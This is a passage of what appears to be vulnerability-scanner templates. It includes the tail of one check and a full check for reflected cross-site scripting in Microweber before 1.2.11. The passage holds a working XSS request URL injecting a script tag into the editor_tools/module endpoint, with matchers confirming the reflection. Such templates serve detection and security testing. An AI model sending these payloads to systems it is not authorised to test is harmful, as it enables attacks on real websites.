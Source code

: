 ### Matchers

**Type - word**

- words
  1. alert(document.domain)//&et=ServerError
  2. mail/bootr.ashx
- condition - and

**Type - status**

- status
  1. 500

**Type - word**

- words
  1. text/html
- part - header

---

# Microweber Cross-Site Scripting

## Description

- Microweber prior to 1.2.11 is susceptible to reflected cross-site Scripting via Packagist microweber/microweber.
- severity - high
- tags - microweber,xss,oss

## Requests

- Method - GET

### URL

- {{BaseURL}}/editor_tools/module?type=files/admin">\<script>alert(document.domain)\</script>&params=filetype=images#path=

### Matchers

**Type - word**

- part - body
- words
  1. \<script>alert(document.domain)\</script>" 0="filetype=images"

**Type - word**

- part - header
- words
  1. text/html
